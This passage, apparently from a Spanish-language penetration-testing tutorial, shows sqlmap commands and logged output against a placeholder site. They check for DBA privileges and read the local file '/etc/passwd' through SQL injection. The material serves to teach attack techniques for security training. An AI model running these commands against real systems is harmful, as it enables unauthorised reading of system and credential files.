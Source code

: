 ```r
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

Para probar la explotación del sistema operativo, intentemos un ejercicio en el que sí tengamos privilegios de DBA, como se ve en las preguntas al final de esta sección:

```r
sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```

Vemos que esta vez obtenemos `current user is DBA: True`, lo que significa que podemos tener el privilegio de leer archivos locales.

---

## Reading Local Files

En lugar de inyectar manualmente la línea anterior a través de SQLi, SQLMap facilita relativamente la lectura de archivos locales con la opción `--file-read`:

```r
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
```